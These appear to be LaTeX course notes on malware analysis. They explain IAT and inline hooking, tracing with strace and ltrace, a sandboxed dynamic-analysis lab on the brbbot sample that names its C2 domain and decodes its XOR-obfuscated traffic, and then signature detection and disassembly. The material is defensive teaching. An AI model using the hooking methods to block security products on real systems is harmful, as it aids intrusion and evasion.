• e.g., a buffer overflow in the stack segment may allow an attacker to modify the values of local variables or
execute arbitrary code

\subsection{Hooking Techniques}

\colorbox{green}{Hooking} is the ability to \colorbox{yellow}{alter the process memory} to allow an attacker to \colorbox{yellow}{replace the entries} in
the import address table (\colorbox{yellow}{IAT}) \colorbox{yellow}{or modify API functions}:\\
• the IAT contains the addresses of functions that an application imports from DLLs

By doing so, an attacker can:\\
• \colorbox{pink}{block calls} made to the API by legitimate application (e.g., security products)\\
• \colorbox{pink}{monitor and intercept/modify} input parameters passed to the API\\
• filter the output parameters returned from the API

In \colorbox{green}{IAT hooking}, a \colorbox{yellow}{DLL is injected} into the target process, and the DllMain():\\
• locates the IAT by parsing the executable image in memory\\
• identifies the entry of the function to hook\\
• replaces the address of the function with the address of the malicious function

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{hooking techniques.png}
\end{figure}

With \colorbox{green}{inline hooking}, the \colorbox{yellow}{API functions itself is modified} to redirect the API to the malicious code

The target API function’s first bytes (instructions) are usually overwritten with a jump statement
that redirects the program control to the malicious code

Carefully choose which instructions to replace (e.g., size is important)

\begin{figure}[H]
  \centering
  \includegraphics[width=.5\linewidth]{hooking.png}
\end{figure}

\chapter{Lab 3 - Dynamic Analysis}
We speak of dynamic analysis when the piece of code we are inspecting is
running on a real or virtual machine at the time of the analysis.

There are several
types of dynamic analysis, however, in most cases we are mainly interested in
the security analysis of binaries by understanding their run-time behaviour, and
perhaps by changing it to fit our needs.

\section{Using strace and ltrace}

These debugging utilities can be useful when we are analyzing a binary.

strace gives us a deep insight on system calls: in fact, every time the program
makes a system call, strace writes some details about it in the standard output.

This is handy when we want to understand what is happening on the filesystem,
in primary memory, etc.

strace can also be attached to a running process using
the option -p [pid] and replacing [pid] with a valid process ID.

However, sometimes strace results cannot be accurately interpreted due to
the very low level details represented in its output.

To have a better idea of what
a certain sample is doing, it is often useful to run the ltrace utility as well,
which allows us to see all library calls (rathern than system calls) performed by
a binary sample.

This might give us more chances to understand what a binary
is doing, by limiting the tracing to a subset of relevant calls (we assume there
are no obfuscation techniques in place): when we recognize one or more library
calls, we can infer which operations are being performed and even why. The -p
option works with ltrace as well.

\begin{lstlisting}
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  void normalFunc();
  void evilFunc();

  int main(int argc, char **argv) {
    char *secret = "12349876";
    int secret_known = 0;
    if (argc > 1)
      secret_known = (strcmp(argv[1], secret) == 0); //compares the input with the secret

    if (secret\_known) //if they match, start malicious behaviour
      evilFunc();
    else //if they don't, pretend to be a normal hello world program
      normalFunc();

    return 0;
  }

  void normalFunc() {
    printf("Hello, world!\n");
  }

  void evilFunc() {
    printf("This string is nasty!\n");
  }
\end{lstlisting}

This program takes the first argument of the program as the user input. It
then compares the input with a secret written in to the program: ”12349876”.
If the user input is not equal to the secret, then the program runs a benign
function ”normalFunc()”. However, if the user input is equal to the secret then
the ”malicious” function is called.

Let’s now assume we want to inspect the helloworld binary without any
knowledge of its source code. We will start by compiling \& using strace to check system
calls \lstinline|strace ./helloworld [param]|.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{strace.png}
\end{figure}

As you can see, the output is quite verbose and complex to read. We can
recognize some operations, but it is rather hard to understand what the program
is trying to do.

We can see that the first system call is execve, made by the shell to start the
program. After that, there are a few access calls with negative outcome, then
the program starts allocating memory with the mmap call and setting correct
access permissions on such memory locations with the mprotect call.

Finally
we have a write call that writes ”Hello world!” on standard output. However,
this doesn’t really help us in understanding if there is any program logic behind
these operations.

Let’s try to use the ltrace utility for the same purpose.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{ltrace.png}
\end{figure}

In the first attempt we try to launch helloworld with "1" as the first argument.
We see that ltrace intercepts a call to the library function strcmp,
which compares two strings, in this case ”1” and ”12349876”.

The result of
this operation is a negative value because the two strings are different (strcmp
outputs a positive value if the first string is greater than the second, or viceversa
a negative value, and 0 if the two strings are the same).

At this point, it should
be clear for that by passing the argument ”12349876” when running the binary,
something should happen, shown in the second attempt.

Even if ltrace was the way to find the secret key in this example, it is
always useful to know and use both utilities, since there will be cases in which
strace is much more helpful than ltrace.

\section{Dynamic Analysis Using Tools}

\subsection{Static Analysis with Tools}

\subsubsection{BinText Tool}
We will be looking at brbbot.exe

When opened with the BinText tool, the following output is shown;

\begin{figure}[H]
  \centering
  \includegraphics[width=.5\linewidth]{lab3 bintext.png}
\end{figure}

The Filter tab in BinText allows you to set parameters, such as defining
which characters are recognized as part of a string and establishing the minimum
string length for identification. By default, this minimum length is set to 5
characters, but you can reduce this value to detect shorter strings.

We can see APIs, IP addresses, URLs, cryptography elements, etc.

\begin{figure}[H]
  \centering
  \includegraphics[width=.5\linewidth]{lab3 bintext 2.png}
\end{figure}

\subsubsection{PeStudio Tool}

After opening the file brbbot.exe using the PeStudio tool;
\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{lab3 pestudio.png}
\end{figure}

PeStudio provides valuable information about the file, including hash values,
which are particularly useful for identifying malware.

One of PeStudio’s
most significant features is its Indicators area, which automatically highlights
potentially malicious aspects of the Windows executable being analyzed.

You
can view the characteristics that PeStudio considers suspicious for brbbot.exe
by examining the Indicators area of the tool.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{lab3 indicators pestudio.png}
\end{figure}

For internet extensions;
\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{internet extensions pestudio lab3.png}
\end{figure}

Why some imports were flagged;
\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{lab3 flagged.png}
\end{figure}

\subsection{Infecting the System and Monitoring Behavior}
To see the malware in action, we will need to infect the system with it. However,
before proceeding, there are a few preparatory steps to complete:

Copy the malware to the location where it would typically copy itself
when infecting a system. Copy brbbot.exe from the Lab3 folder to the
following path: \lstinline|C:\Users\checkout\AppData\Roaming|

Once the file is in place, create a shortcut for it and place it on the desktop.
Set its properties to run as admin

Launch Process Hacker 2. Observe the running processes to gain familiarity
with the system’s state before infection.

Launch Process Monitor (procmon.exe), pause its capture (Ctrl+E),
and clear its log file (Ctrl+X) (output should now be empty).

Launch RegShot (Regshot-x64-ANSI.exe), keep the default settings,
and take the first snapshot by clicking on the 1st shot button, then
Shot

On REMnux, run the following command in a terminal: sudo wireshark

Once Wireshark launches, activate its capture by selecting the ens33 interface
and clicking Start Capture from the menu or by pressing Ctrl+E.
Leave Wireshark active and return to your Windows VM.

Now, it is time to infect the machine with the malware and observe its
behavior. Perform the following steps:

Go to Process Monitor and start it again using Ctrl+E. Then double-click
the brbbot-shortcut to infect the system. Let it run for approximately 40
seconds. Process Hacker should display the malicious brbbot.exe process
running on the system.

Use Process Hacker to terminate the brbbot.exe process on the Windows
VM. To do this, right-click the running brbbot.exe process and select
Terminate. Stop capture in Process Monitor (Ctrl+E).

Switch to the REMnux virtual machine and press Ctrl+E in Wireshark to
pause its capture.

Create the second RegShot snapshot on the Windows REM Workstation
by clicking the 2nd shot button, then Shot.

Generate the RegShot comparison report by selecting Compare. Examine
the report to identify interesting changes; Search for brb in the
RegShot comparison report

brbbot adds a value in compatability assistant
\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{brbot regshot.PNG}
\end{figure}
\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{brbot regshot 2.PNG}
\end{figure}
\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{brbot regshot 3.PNG}
\end{figure}

\subsection{Visualizing Malware Behavior with ProcDOT}

The log file from Process Monitor is a valuable resource that reveals the
modifications caused by the malware during runtime. Save the files in CSV
format and then open ProcDOT.

ProcDOT provides an effective visualization of the processes of interest,
making it easier to follow a process’s behavior.

When opening ProcDOT for
the first time, you need to set up the paths for two additional tools required to
visualize the logs acquired from Process Monitor.

These tools are WinDump
and Graphviz, which can be found at the following paths:
\lstinline|C:\Users\checkout\Downloads\WinDump|
\lstinline|C:\ProgramFiles\Graphviz\bin\dot|

select brbbot.exe as the process to watch

Using the graph as a guide, we can see what the brbbot.exe process does.
Which registry keys it modifies, the files it creates, etc.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{procdot brbot.PNG}
\end{figure}

\subsection{Network Analysis with FakeDNS}
We will now investigate what brbbot.exe does if it successfully reaches the
domain it is attempting to contact.

Run the fakedns command on a REMnux terminal. Then, go to the Windows
VM, open a Command Prompt, and run nslookup.

Attempt to resolve any hostname, such as www.example.com.

Launch Wireshark on REMnux. Start capturing network packets.

Then, reinfect your Windows VM with brbbot.exe by double-clicking the shortcut.

Process Hacker should display the malicious process as running.

On REMnux, fakedns should display the specimen attempting to resolve a hostname.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{fakedns.png}
\end{figure}

Keep fakedns running on REMnux. Open a new terminal window on REMnux
and start a web server by typing the following command:
\lstinline|httpd start|

Go to your Windows VM, open Firefox, and manually visit http://brb.3dtuts.by
to confirm that fakedns and the web server are running properly.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{fakedns page.png}
\end{figure}

Start capturing network traffic in Wireshark on REMnux, and then
reinfect your Windows VM with brbbot.exe.

Terminate the brbbot.exe process using Process Hacker on the Windows
VM after approximately 40 seconds. Stop capturing in Wireshark on REMnux.

Examine the network traffic captured by Wireshark. You should see an established
HTTP session; examine its payload by right-clicking one of its packets
and selecting Follow TCP Stream.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{lab3 brb wireshark.png}
\end{figure}

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{brb wireshark payload.png}
\end{figure}

While reviewing the HTTP session’s payload in Wireshark’s Stream Content
window, select the hexadecimal characters between \&p= and HTTP/1.1, then
right-click and select Copy to copy these contents to the clipboard. Switch to
a terminal on REMnux and type the following command:
scite encrypted.hex

In the text editor window, paste the contents from the clipboard, save the
file, and exit the text editor. Confirm that the file you created contains the
expected content by using the following terminal command:
cat encrypted.hex

Use the xxd command to convert hex to ASCII.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{xxd.png}
\end{figure}

\subsection{Decoding Obfuscated Data}

The data that brbbot.exe attempts to send over the network appears to be
obfuscated through some type of encoding or encryption. We will aim
to uncover how this obfuscation is performed.

On the Windows VM, load brbbot.exe into x64dbg.
Do not run the code in the debugger immediately; the debugger
will display as paused.

From the ProcDOT graph, we observed that brbbot.exe creates and reads
a file. It is likely that the malware uses this file to store configuration details.

However, the encoding method used for the file’s contents is unknown.
To set a breakpoint on the ReadFile API call, type the following command
in the Command window at the bottom of x64dbg’s CPU tab:
\lstinline|SetBPX ReadFile|

Selecting an appropriate point in the code for setting a
breakpoint is crucial for effective analysis. Tools like pe-frame
can assist by providing detailed information about the
file, identifying suspicious behaviors, listing anti-debugging
functions, and suggesting possible locations for breakpoints
during dynamic analysis.

Run the code in x64dbg. The
program will pause at the breakpoint you defined. You should now be in
x64dbg’s CPU tab, with the program paused at the following instruction:
jmp qword ptr ds:[<\&ReadFile>]

%TODO
%What is RIP ?(instruction pointer)? pointing to on the left side at the breakpoint?

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{ptr ds.png}
\end{figure}

This instruction represents the beginning of the ReadFile function.
To confirm that the code is reading from the brbconfig.tmp file, examine
the right side of the CPU tab.

%TODO ADD image

This area represents the parameters used by the function being inspected.
According to Microsoft Documentation, the value 10C (this value may vary in
your case) stored in the RCX register corresponds to the parameter named hFile,
which is passed to the ReadFile function.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{124 10c.png}
\end{figure}

Switch to the Handles tab in x64dbg, right-click, and select Refresh. Lo-
cate the handle that corresponds to the parameter value you are investigating
(e.g., 10C).

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{124 file.png}
\end{figure}

Return to x64dbg’s CPU tab and select Debug → Run to user code or
press Alt+F9. This will allow ReadFile to complete execution. Once x64dbg
pauses the code’s execution, scroll down to the instruction that calls CryptDecrypt.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{cryptDecrypt.png}
\end{figure}

Select the test eax,eax instruction following that call, and then choose Debug
→ Run until selection or press F4.

According to Microsoft Documentation, the CryptDecrypt function places
decrypted contents into the buffer whose address is passed as the fifth parameter
(pbData).

In this case, the parameter points to the top of the stack, where you
will see a pointer to the decrypted string after the CryptDecrypt call, as shown;

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{5b.png}
\end{figure}

Part of the decoded string includes the value encode, which appears to
be an encoding key (5b). It is logical that the attacker would encrypt the
brbconfig.tmp file to protect sensitive configuration data for the malware.

Previously, Wireshark was used to capture data sent by brbbot.exe from
the infected system. A portion of the data was hex-encoded, but decoding
it into ASCII yielded no meaningful result.

The contents were saved into the
encoded.hex file. Now that we have identified the encoding key, we can attempt
to decode this file. However, determining the encoding method used is essential.
There are several methods used to encrypt or decode data, some more complex
than others.

When dealing with malware, encoding and decoding mechanisms
are typically simple to minimize the file’s memory footprint and ensure
efficient execution.

For this reason, malware authors often favor straightforward
methods. One of the most common techniques is bitwise XOR, where each bit of
the text to be decoded is XORed with a predefined key.

To decode the contents of the file using the discovered key (0x5B) and the
XOR mechanism, follow these steps:

First, convert the saved contents from hexadecimal to raw format by running
the following command in a terminal on REMnux:
xxd -r -p encrypted.hex > encrypted.raw

Next, decrypt the contents of the raw file by executing the command:
translate.py encrypted.raw decrypted.txt 'byte \^ 0x5b'

This should produce a human-readable file named decrypted.txt.

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{decrypted brb.png}
\end{figure}

The file contained a list of processes running on the victim computer

\chapter{Lecture 4 - Malware analysis}

\section{Early Days of Malware Analysis}
The AV Industry;\\
• No big effort to collect samples\\
• Reverse engineering to (statically) analyze a sample\\
• Simple-yet-effective signature-based (static) detection\\
• Mostly hash signatures, e.g. md5(virus)\\
• Automatic Generation of String Signatures for Malware Detection

• \colorbox{yellow}{Byte-level or instruction-level signatures}\\
• \colorbox{yellow}{Wildcards} can be used, \colorbox{yellow}{regular expressions}

\colorbox{cyan}{Heuristics}:\\
• code execution starts in last section\\
• incorrect header size\\
• suspicious sections name\\
• patched table of imported functions

These heuristics were good indications of malware as the \colorbox{yellow}{creators} at the time
\colorbox{yellow}{did not care} at the time \colorbox{yellow}{to obfuscate} the malware. They were simply showing off
their ability

Traditional Malware;\\
Assembly/C/macro code\\
Spread via file infection (e.g., virus), network (e.g., worm), or removable media

Not a problem anymore;\\
• Very easy\\
• The payload is neither protected nor obfuscated\\
• Signature-based detection sufficient to detect them

\subsection{Signature-based Detection}
\colorbox{yellow}{AV maintains a database of signatures} (e.g., byte patterns, regular expressions)\\
A program is considered malicious if it matches a signature

The simplest form of an antivirus signature is a \colorbox{green}{byte-stream} that is specific to a
malware file and that does not normally appear on non-malicious files

For example, to detect the EICAR antivirus testing file, an antivirus engine may simply
search for a specific string (string in slides).%TODO

Pros:\\
• \colorbox{pink}{fast and easy to implement}\\
• many \colorbox{pink}{robust and efficient algorithms} for string matching available (such as AhoCorasick, Knuth-Morris-Pratt, Boyer-Moore)

Cons:\\
• goodware file may contains the byte-string, and many \colorbox{pink}{false positive} are generated

\colorbox{green}{Checksums}, such as the CRC32, are \colorbox{yellow}{applied on a byte-stream} to generate a \colorbox{yellow}{unique
  identifier} that is then looked up in the signature:\\
• usually \colorbox{pink}{weak against collision attacks} and prone to \colorbox{pink}{false positives}

\colorbox{green}{Cryptographic hash functions}, unlike checksum algorithms, are resilient against
collision attacks and do not cause a lot of false positives:\\
• they take a \colorbox{pink}{long time to compute}\\
• \colorbox{pink}{easily evaded}: a simple change in the input file can generate a totally different hash value

\colorbox{green}{Fuzzy hash functions} are used to \colorbox{yellow}{detect a group of files}, typically malware files
belonging to the \colorbox{yellow}{same family}:\\
• locality-sensitive hashing (LSH) is an algorithmic technique that hashes similar input
items into the same ”buckets” with high probability\\
• unlike cryptographic hashes, it is \colorbox{yellow}{acceptable to have collisions}\\
• if collisions occur, it is usually because the malware with the fuzzy hash belong to the
same family

If researchers using this signature approach calculate the edit distance, they will
discover that the file is similar to a known one

\colorbox{green}{Graph-based hashes} are computed from either the \colorbox{yellow}{call graphs or the control-flow
  graph} of a malicious executable

Calculating graph-based hashes is \colorbox{pink}{more time-consuming} than all other hashing
methods and requires that the \colorbox{yellow}{AV engine has disassembling ability} so it can build
such graphs

Nonetheless, graph-based hashes are \colorbox{pink}{very good for detecting different iterations} of
the same malware:\\
• they rely not on the bytes-stream sequence but on the \colorbox{yellow}{relationship} of basic blocks or
functions call graphs

Signature-based detection prevalent still, \colorbox{cyan}{aided by}:\\
• Reputation (e.g., user-supplied telemetry, honeypots)\\
• String signatures\\
• Suspicious behavior (e.g., writing to specific registry entries)\\
• Towards (dynamic) behavior-based (for end-users too)\\
• Towards ML-based analysis/classification (often on the Cloud)

Traditional malware is identified from static signature based detection - easily
\colorbox{pink}{bypassed by minor} \colorbox{pink}{modifications} to the malware

\colorbox{yellow}{Machine learning models can analyze behavior and detect previously unkown malware}

\section{Static Analysis}

\subsection{Disassembly}
\colorbox{yellow}{Disassembly}; Take a binary blob, \colorbox{yellow}{set code and data apart}, and translate machine code to
mnemonic instructions

With a disassembled program, \colorbox{cyan}{we can}:\\
• locate functions\\
• recognize jumps\\
• identify local variables\\
• …understanding the program behavior without running it

However:\\
• need to pick a proper algorithm\\
• \colorbox{pink}{accuracy depends on the quality of the algorithm}\\
• not an easy task

Note that the problem of separating data and code is, in general, undecidable:\\
• bytes are code if and only if they are reachable at runtime\\
(a decision that reduces to the halting problem)

On Intel x86, most of the values of a single byte represent a valid instruction

\colorbox{yellow}{Complexity Explosion} - there is a large number of assembly instructions compared to high level ones \& a large number of ways to express the same thing in assembly

\subsubsection{Issues}

\colorbox{pink}{Code and data in the same address space} (how to distinguish them?)\\
• Variable-length instruction\\
• Indirect control transfer instructions\\
• Basic blocks

At \colorbox{pink}{compile-time some information may disappear}, e.g.:\\
• variable names\\
• type information\\
• macro \& comments

How to identify:\\
• functions?\\
• function parameters?

\subsubsection{Algorithms}

Two main algorithms

Linear sweep:\\
• objdump, WinDbg, ...

Recursive traversal:\\
• IDA, OllyDbg, ...

\begin{figure}[H]
  \centering
  \includegraphics[width=.6\linewidth]{dissassembly algos.png}

  Arrows show the disassembly flow
\end{figure}

Neither linear nor recursive disassembly is perfect

For \colorbox{yellow}{benign} binaries, linear disassembly is a good choice because it will yield both a
\colorbox{pink}{complete and accurate} disassembly:\\
• they typically \colorbox{yellow}{don’t contain inline data} that will throw the disassembler off\\
• the linear approach \colorbox{yellow}{won’t miss code} because of unresolved indirect control flow

On the other hand, if inline data or malicious code is involved, it’s probably a better
idea to use a recursive disassembler:\\
• \colorbox{yellow}{not as easily fooled into producing bogus output} as a linear disassembler is

In cases where disassembly \colorbox{pink}{correctness is paramount}, even at the expense of
completeness, we can resort dynamic disassembly

\textbf{Linear Sweep}

• Locate instructions: where one instruction begins, another ends\\
• Assume that everything in a section marked as code actually represents machine instructions\\
• Usually starts to disassemble from the first byte of the code section in a linear fashion\\
• Disassembles one instruction after another until the end of the section is reached

Pros:\\
• it provides \colorbox{pink}{complete coverage} of a program’s code sections

Cons:\\
• \colorbox{pink}{no effort} is made to understand the program’s \colorbox{pink}{control flow}\\
• compiler often \colorbox{pink}{mixes code with data} (e.g., switch statement \textasciitilde jump table)

Linear sweep iterates through all code segments in a binary, decoding all bytes
\colorbox{yellow}{consecutively} and parsing them into a list of instructions:\\
• many simple disassemblers, including objdump, use this approach\\

Risk: not all bytes may be instructions:\\
• some compilers intersperse data (such as jump tables) with the code:\\
• not easy to know where exactly that data is\\
• if disassemblers accidentally parse this inline data as code, they may encounter invalid opcodes\\
• even worse, the data bytes may coincidentally correspond to valid opcodes, leading the
disassembler to output bogus instructions:\\
especially on dense ISAs like x86, where most byte values represent a valid opcode

On ISAs with variable-length opcodes, inline data may cause the disassembler to become
desynchronized with respect to the real instruction stream:\\
• though the disassembler will typically self-resynchronize, the first few real instructions
following inline data will be missed

In practice, linear disassemblers are safe for disassembling ELF binaries compiled
with recent versions of compilers, e.g. gccor LLVM’s clang:\\
• the x86 versions of these compilers don’t typically emit inline data

On the other hand, Visual Studio does:\\
• there might be disassembly errors, e.g. when using objdumpon PE binaries\\
• similarly, when analyzing ELF binaries for other architectures, e.g. ARM

\textbf{Recursive Traversal}

It \colorbox{yellow}{focuses} on the concept of \colorbox{yellow}{control flow}; instructions classified as:\\
• Sequential flow: pass execution to the next instruction that immediately follows (add,
mov, push, pop,… )\\
• Conditional branching: if the condition is true the branch is taken and the instruction pointer
must change to reflect the target of the branch, otherwise it continues in a linear fashion (jnz,
jne, …): in static context this algorithm disassembles both paths\\
• Unconditional branching: the branch is taken without any condition; the algorithm
follows the (execution) flow (jmp)\\
• Function call: are like unconditional jumps but they return to the instruction immediately
following the call\\
• Return: every instructions which may modify the flow of the program add the target address
to a list of deferred disassembly:
when a return instruction is reached an address is popped from the list and the algorithm continues
from there (recursive algorithm)

Pros:\\
• \colorbox{pink}{Distinguish code from data}\\
Cons:\\
• Indirect code \colorbox{pink}{invocations}

Recursive disassembly is \colorbox{pink}{sensitive} to control flow\\
• It starts from known entry points into the binary (e.g., main entry point, exported
function symbols)\\
• Recursively follows control flow (e.g., jumps and calls) to discover code\\
• This allows recursive disassembly to work around data bytes in most cases

Downside: not all control flow is so easy to follow:\\
• hard to statically figure out the possible targets of indirect jumps or calls\\
• the disassembler may miss blocks of code (or functions, e.g. f1and f2in previous figure)
targeted by indirect jumps or calls:\\
• unless using some \colorbox{pink}{special heuristics}

De facto standard in many reverse-engineering applications, such as malware analysis (e.g.,
IDA)

While efficient, jump tables make recursive disassembly more difficult because
they use indirect control flow:\\
• the lack of an explicit target address makes it difficult for the disassembler to track
the flow of instructions\\
• any instructions that the indirect jump may target remain undiscovered\\
• unless the disassembler implements specific (compiler-dependent) heuristics to
discover and parse jump tables\\
• a recursive disassembler might not discover the instructions at certain addresses at all

In general, it is \colorbox{pink}{not safe} to assume that there are instructions following a ret instruction
or nonreturning call. These instructions may be followed by data or padding bytes not intended to be parsed
as code.
The converse assumption that these instructions are not followed by more code may lead
the disassembler to miss instructions, leading to an incomplete disassembly

\subsubsection{Signature-based Detection is Not Sufficient Anymore}

Malware are created at the speed of light (25,000 malware samples every day, seven
days a week—2008, 2,300,000—2018)

Signatures generation takes time and resources

Signatures database are becoming huge and hard to maintain and manage (e.g., AV
database contains millions of signatures and must be updated every hour)

Malware protect their code to thwart signature detection

Behavior-based Malware Detection;\\
Signature-based, and static detection techniques in general, are easy to defeat

Towards dynamic \colorbox{green}{behavior-based} techniques\\
• Monitor the events that characterize the execution of the program (e.g. the
system calls executed)\\
• Infer the behavior of the program from these events\\
• Detect high-level malicious behaviors\\
• Can detect novel malware since the majority of them share the same
high-level behaviors (e.g., rely spam, steal sensitive information)

\section{Dynamic Analysis}

The program \colorbox{yellow}{must be executed and monitored}\\
• Interaction with the environment\\
• Interaction with the OS (e.g., system calls)

Ability to monitor code (and data flow) as it executes\\
• Allow us to reason about actual execution\\
• Allow us to perform precise security analysis thanks to run-time information\\

\colorbox{yellow}{Debugging}:\\
• “finding bugs”\\
• in general, “see what’s going on” (e.g., sw interrupt, library interposition, API tracing)\\

\colorbox{yellow}{Instrumentation}:\\
• add extra semantic-preserving code to a program or a process\\
• taint-tracking

\subsection{Dynamic Disassembly}

Dynamic analysis solves many of the static analysis problems because it has a rich set
of runtime information at its disposal:\\
• e.g., such as concrete register and memory contents

When execution \colorbox{yellow}{reaches} a particular address, we \colorbox{yellow}{know there’s an instruction}:\\
• \colorbox{green}{dynamic disassembly} doesn’t suffer from the inaccuracy problems involved in static
disassembly

Dynamic disassemblers (or execution tracers), to simply dump instructions (and
possibly memory/register contents) as the program executes

Main downside is the code coverage problem:\\
• dynamic disassemblers don’t see all instructions but \colorbox{pink}{only those they execute}

\subsection{Debugging}
\colorbox{yellow}{Monitor} a single process execution\\
• Fine-grained debugging \colorbox{yellow}{levels} (LOC, single-step)\\
• \colorbox{green}{Breakpoint} stops the program whenever a particular point in the program is
reached\\
• \colorbox{green}{Watchpoint} stops the program whenever the value of a variable or expression
changes\\
• \colorbox{green}{Catchpoint} stops the program whenever a particular event occurs\\
• \colorbox{yellow}{Analyze} CPU environment (memory, registers)

Debugging tools;\\
• Linux: gdb\\
• Windows: ImmunityDebugger, OllyDbg, SoftIce, WinDbg

Breakpoint - Software\\
• Software interrupts (traps) implement breakpoints on x86\\
• When the CPU executes an intinstruction the control transfers to the routine
associated\\
• The return address for the interrupt service routine (ISR) points to the instruction
following the trap instruction

Debuggers use break exceptions as a mechanism for suspending program
execution to examine registers and memory locations

(SIGTRAP when EIP hits breakpoint, when continuing, you restore the original instruction)

\subsection{Structuring Disassembled Code and Data}

Large unstructured heaps of disassembled instructions are nearly impossible to
analyze:\\
• most disassemblers structure the disassembled code in some way that’s easier to
analyze

\colorbox{green}{Compartmentalizing}:\\
• breaking the code into \colorbox{yellow}{logically connected chunks}\\
• it becomes easier to analyze what each chunk does and how chunks of code relate to each
other

\colorbox{yellow}{Revealing control flow}:\\
• some of the code structures represent not only the code itself but also the control
transfers between blocks of code\\
• these structures can be represented visually, making it much easier to get a quick idea of
what the code does

\subsection{Function Identification}

Programs that are \colorbox{yellow}{well structured and properly divided} into functions are much
\colorbox{pink}{easier to understand} than poorly structured programs (“spaghetti code”)

Disassemblers make some effort to recover the original program’s function
structure\\
• use it to group disassembled instructions by functions\\
• this is known as function detection

\colorbox{yellow}{Function detection} make the code much \colorbox{pink}{easier} to understand for \colorbox{yellow}{human} reverse
engineers

It also helps in automated analysis, e.g.:\\
• Searching for bugs at a per-function level\\
• Modifying the code so that a particular security check happens at the start and end of each
function

For binaries with \colorbox{pink}{symbolic} information, function detection is \colorbox{pink}{trivial}:\\
• the symbol table specifies the set of functions, along with their names, start addresses,
and sizes\\
• unfortunately, many binaries are \colorbox{pink}{stripped} of this information

The code belonging to a particular function might not even be arranged
contiguously in the binary

Bits and pieces of the function might be \colorbox{pink}{scattered} throughout the code section

Chunks of code may even be \colorbox{pink}{shared} between functions (known as overlapping
code blocks)

The predominant strategy that disassemblers use for function detection is based on
\colorbox{green}{function signatures}:\\
• which are \colorbox{yellow}{patterns} of instructions often used at the start or end of a function (\colorbox{yellow}{prologue and epilogue})

prologue;\\
push the base pointer to preserve its current value\\
set ebp to esp (mov) to move the top of the stack\\
sub from esp to reserve space for variables

epilogue;\\
reverse what you did in prologue; mov esp to ebp, pop ebp and ret

\subsection{Control FlowGraph (CFG)}

Breaking the disassembled code into functions is one thing, but \colorbox{pink}{some functions are
  quite large}:\\
• analyzing even one function can be a complex task

Disassemblers and binary analysis frameworks use control-flow graph:\\
• useful for automated analysis, as well as manual analysis\\
• the offer a convenient \colorbox{yellow}{graphical representation of the code structure}\\
• which makes it easy to get a feel for a function’s structure at a glance

Basic block\\
A \colorbox{green}{basic block} is a \colorbox{yellow}{maximal sequence of consecutive instructions} with a single
entry and single exit \colorbox{yellow}{without branches} out interleaving in the block of code
(except at the exit)

Control flow graph\\
Given a program P, its control flow graph is a directed graph G = (V, E)
representing all the paths a program might traverse during its execution.

V is a set of basic clocks. E $\in$ VxV is the set of edges representing control flow between basic blocks. A control flow edge from block u to v is e = (u,v) $\in$ E

\subsubsection{Call Graph}

Given a program P, its call graph is a directed graph C = (R,E).

R is the set of procedures. E $\in$ RxR is the set of edges indicating the relation caller-callee. a caller-callee edge from the caller procedure u to the callee procedure v is e = (u,v) $\in$ E

\subsection{Interaction with the Environment}

Linux;\\
• lsof lists on its standard output file information about files opened by
processes.\\
• netstat displays the contents of various network-related data structures.\\
• /proc/<pid>/*, tcpdump, wireshark, …\\
• ltrace: It intercepts and records the dynamic library calls which are called
by the executed process and the signals which are received by that process

\subsection{System Calls}

• \colorbox{yellow}{Interface} between a \colorbox{yellow}{user-space} application and a \colorbox{yellow}{service} that the \colorbox{yellow}{kernel
  provides}\\
• Generally something that only the \colorbox{yellow}{kernel} has the \colorbox{yellow}{privilege} to do (callable
from user-space)\\
• Provide useful \colorbox{pink}{information about process behavior}

System calls require \colorbox{yellow}{control transfer} to the operating system:\\
• int(Linux: int 0x80, Windows: int 0x2e)\\
• sysenter/sysexit ($\ge$ Intel Pentium II)\\
syscall/sysret ($\ge$ AMD K6);

System call is \colorbox{cyan}{invoked} by placing:\\
• system call number in \%eax\\
• parameters into general purpose registers

int 0x80 transfers control from the user mode to the kernel mode, allowing completion of a system call

System Call Tracer (strace) - Linux\\
It intercepts and records the system calls which are called by a process and the signals
which are received by a process:\\
• trace system calls, parameters, signals, …\\
• trace child processes\\
• attach to a running processes\\
• leveraging ptrace

PTRACE – ProcessTrace\\
• ptrace() allows a process (the tracing process) to control another one (the traced
process)\\
• The ptrace() system call provides a means by which a parent process may observe
and control the execution of another process, and examine and change its core image
and registers\\
• It is primarily used to implement breakpoint debugging and system call tracing

Child process\\
Any signal delivered to this process will cause it to stop and its parent to be
notified via wait()

\subsection{Goals Of A Dynamic Analysis System}

\colorbox{green}{Visibility} — A sandbox must \colorbox{yellow}{see as much as possible} of the execution of a
program:\\
• otherwise, it risks of missing interesting, potentially malicious, behaviors

\colorbox{green}{Resistance to detection} — Monitoring should be hard to detect and
environment hard to fingerprint

\colorbox{green}{Scalability} — With 500,000+ malware samples per day, analysis must scale up:\\
• the execution of one sample does not interfere with the execution of subsequent
malware programs\\
• analyses should be \colorbox{yellow}{automated}

\subsection{Virtualization vs Emulation vs Simulation}

\colorbox{green}{Virtualization}:\\
• \colorbox{yellow}{a level of abstraction}\\
• resource virtualization (e.g., virtual memory, RAID, storage virtualization, overlay
networks)\\
• platform virtualization (e.g., emulation/simulation)\\
